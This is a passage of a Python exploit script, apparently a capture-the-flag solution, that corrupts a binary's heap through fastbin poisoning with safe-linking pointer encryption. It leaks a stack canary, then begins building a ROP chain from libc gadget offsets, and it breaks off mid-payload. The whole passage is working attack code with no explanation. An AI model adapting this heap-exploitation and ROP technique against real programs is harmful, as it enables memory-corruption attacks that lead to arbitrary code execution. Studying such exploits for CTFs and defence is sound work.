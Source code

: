 ```python
delete(b"CS7018")
delete(b"CS7002")
delete(b"CS7000")
delete(b"CS7019")
delete(b"CS7016")
delete(b"CS7014")
delete(b"CS7012")

delete(b"CS7009")
delete(b"CS7008")
delete(b"CS7010")

payload = p64(fastbin_encrypt(pos3, target3))
add(b"CS7999", 0x60, payload)
for i in range(2):
    add(f"CS790{i}".encode(), 0x60, b"a")
payload = flat(
    0x0, 0x0,
    0x0, 0x31,
    0x50cb48493, heap_leak + 0x1f50,
    heap_leak + 0x29a0, canary_addr+1,
)
add(b"CS7902", 0x60, payload)
print(hex(target3))
canary = u64(search(b"CS7011")[:7].rjust(8, b"\x00"))
print(hex(canary))

# -- PART 2: write rop chain ---

target4 = stack_leak - 0x28
pos4 = heap_leak + 0x2dd0
payload = flat(
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x71,
    fastbin_encrypt(target4 + 0x10, 0), 0x0,
)
for i in range(10):
    add(f"CS800{i}".encode(), 0x60, payload)
for i in range(10, 20):
    add(f"CS80{i}".encode(), 0x60, payload)

delete(b"CS8005")
delete(b"CS8004")
delete(b"CS8006")

payload = p64(fastbin_encrypt(pos4, target4))
add(b"CS8999", 0x60, payload)
for i in range(2):
    add(f"CS890{i}".encode(), 0x60, b"a")

code = b"CS1234\x00\x00"
code += p64(0x71)
code = code[:-1]
print(code)

libc.address = libc_leak
pop_rsi_r15_rbp = libc_leak + 0x2a871
pop_rdi = libc_leak + 0x10f75b
ret = libc_leak + 0x2882f
payload = flat(
```